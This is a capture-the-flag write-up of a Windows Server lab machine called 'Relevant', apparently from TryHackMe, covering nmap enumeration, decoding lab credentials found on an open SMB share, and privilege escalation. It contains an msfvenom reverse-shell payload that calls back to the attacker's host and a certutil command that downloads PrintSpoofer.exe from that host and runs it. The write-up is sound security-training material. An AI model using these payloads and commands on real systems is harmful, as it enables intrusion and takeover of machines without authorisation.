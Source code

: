 ### Name: Relevant
### Ip: 10.10.28.224
### Difficulty: Medium

----------------------------------------------------------------

###  Pre-Engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    - User.txt
    - Root.txt

Additionally, the client has provided the following scope allowances:

    - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    - Locate and note all vulnerabilities found
    - Submit the flags discovered to the dashboard
    - Only the IP address assigned to your machine is in scope
    - Find and report ALL vulnerabilities (yes, there is more than one path to root)

--------------------------------------------------------------------------    

![10524728b2b462e8d164efe4e67ed087.jpeg](../assets/relevant_assets/10524728b2b462e8d164efe4e67ed087.jpeg)

### Enumeration

I'll begin enumerating this machine by scanning all TCP ports using Nmap:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -p- --min-rate 10000 10.10.28.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:03 CDT
Nmap scan report for 10.10.28.224
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```

Let's enumerate a bit deeper by also using the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -sC -sV 10.10.28.224 -p 80,135,139,445,3389,49663
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:05 CDT
Nmap scan report for 10.10.28.224
Host is up (0.18s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server?
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-27T18:56:40
|_Not valid after:  2023-12-27T18:56:40
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-28T19:07:20+00:00
|_ssl-date: 2023-06-28T19:07:59+00:00; 0s from scanner time.
49663/tcp open  http           Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb2-time: 
|   date: 2023-06-28T19:07:22
|_  start_date: 2023-06-28T18:57:35
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-28T12:07:21-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.02 seconds
```

Navigating to the site on port 80 we find an IIS default landing page:

![landing_page.png](../assets/relevant_assets/landing_page.png)

Before enumerating http let's take a look at the SMB shares to see if we can find anything interesting.

Using CrackMapExec we see that we have read and write access to the nt4wrksv share using the guest account with null for a password. 

![cme_shares.png](../assets/relevant_assets/cme_shares.png)

Let's use SMBClient to further enumerate the share:

![smb_passwords.png](../assets/relevant_assets/smb_passwords.png)

Ok interesting, looks like we've found a couple passwords. This appears to be Base64, so lets try to decode these:

![b64_passwords.png](../assets/relevant_assets/b64_passwords.png)

So it appears we now have two sets of credentials:

```text
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
### Exploitation 

Before leaving SMB, I recall that we had both read and write permissions to the share. Let's try upload a reverse shell to see if we can get an easy win and get access to the box.

I'll create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -a x64 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3420 bytes
```

And while still logged into the SMB share I can simply issue the `put` command to uplaod my shell.

`put shell.aspx`

I set up a NetCat listener and turned my attention to the browser to see where my shell may have been uploaded. 

I had no luck on port 80 at http://10.10.28.224/nt4wrksv/shell.aspx

![fail_shell.png](../assets/relevant_assets/fail_shell.png)

But looking back over my nmap scans I noticed the box had another http port open. I was able to succesfully trigger my shell by navigating to http://10.10.28.224:49663/nt4wrksv/shell.aspx

Which called back to my nc listener and gave me a working shell:

![first_shell.png](../assets/relevant_assets/first_shell.png)

And from here I can grab the user.txt flag from Bob's desktop:

![user_flag.png](../assets/relevant_assets/user_flag.png)

Let's now turn our attention to escalating privileges to administrator!

### Privilege Escalation

Running `whoami /all` shows me that SeImpersonatePrivilege is enabled on the machine.

![impersonate.png](../assets/relevant_assets/impersonate.png)

Nice! This should make for an easy privilege escalation. Because this is a Windows 10 box, let's try using PrintSpoofer.exe to escalate to the Administrator user.

Firstly I'll set up a Python webserver in the directory I keep PrinteSpoofer in and then afterwards I'll use CertUtil to download the file onto the target:

```text
C:\Users\Bob\Desktop>certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

We can also verify a code 200 from the Python server logs:

```text
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.28.224 - - [28/Jun/2023 14:45:41] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
10.10.28.224 - - [28/Jun/2023 14:45:44] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
```

Once PrintSpoofer is on the target I simply execute:

```text
C:\Users\Bob\Desktop>PrintSpoofer.exe -i -c cmd
```
And I can verify that the exploit worked and am now nt authority\system on the machine:

![system.png](../assets/relevant_assets/system.png)

All that's left to do now is to grab the root.txt flag in the Administrator's Desktop:

![root_flag.png](../assets/relevant_assets/root_flag.png)

And that's that! Thanks for following along!

-Ryan

------------------------------------------------------------------
